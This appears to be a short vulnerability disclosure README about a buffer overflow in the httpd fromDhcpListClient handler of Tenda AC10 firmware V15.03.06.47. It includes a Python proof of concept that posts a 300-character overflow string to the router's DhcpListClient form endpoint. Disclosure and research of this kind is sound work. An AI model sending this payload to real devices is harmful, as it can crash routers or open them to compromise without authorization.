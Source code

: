 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromDhcpListClient

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](7.png)

get value from strlist ,named list1、list2······, and we must set listcnt more than 1




## POC
```
url = "http://192.168.1.13/goform/DhcpListClient"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list1': payload, 'LISTLEN': 1})
``` 
